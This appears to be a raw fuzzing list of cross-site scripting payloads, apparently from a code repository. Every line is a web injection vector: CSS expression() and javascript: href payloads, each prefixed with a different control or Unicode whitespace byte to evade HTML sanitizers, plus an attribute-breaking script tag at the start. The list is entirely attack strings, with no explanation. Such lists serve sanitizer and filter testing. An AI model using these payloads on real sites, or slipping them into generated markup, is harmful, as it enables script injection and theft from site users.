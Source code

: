 '`"><\x00script>javascript:alert(1)</script>
ABC<div style="x\x3Aexpression(javascript:alert(1)">DEF
ABC<div style="x:expression\x5C(javascript:alert(1)">DEF
ABC<div style="x:expression\x00(javascript:alert(1)">DEF
ABC<div style="x:exp\x00ression(javascript:alert(1)">DEF
ABC<div style="x:exp\x5Cression(javascript:alert(1)">DEF
ABC<div style="x:\x0Aexpression(javascript:alert(1)">DEF
ABC<div style="x:\x09expression(javascript:alert(1)">DEF
ABC<div style="x:\xE3\x80\x80expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x84expression(javascript:alert(1)">DEF
ABC<div style="x:\xC2\xA0expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x80expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x8Aexpression(javascript:alert(1)">DEF
ABC<div style="x:\x0Dexpression(javascript:alert(1)">DEF
ABC<div style="x:\x0Cexpression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x87expression(javascript:alert(1)">DEF
ABC<div style="x:\xEF\xBB\xBFexpression(javascript:alert(1)">DEF
ABC<div style="x:\x20expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x88expression(javascript:alert(1)">DEF
ABC<div style="x:\x00expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x8Bexpression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x86expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x85expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x82expression(javascript:alert(1)">DEF
ABC<div style="x:\x0Bexpression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x81expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x83expression(javascript:alert(1)">DEF
ABC<div style="x:\xE2\x80\x89expression(javascript:alert(1)">DEF
<a href="\x0Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x0Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xC2\xA0javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x05javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE1\xA0\x8Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x18javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x11javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x88javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x89javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x17javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x03javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x0Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x00javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x10javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x82javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x20javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x13javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x09javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x8Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x14javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x19javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xAFjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x87javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x07javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE1\x9A\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x83javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x04javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x01javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x08javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x84javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x86javascript:javascript:alert(1)" id="fuzzelement1">test</a>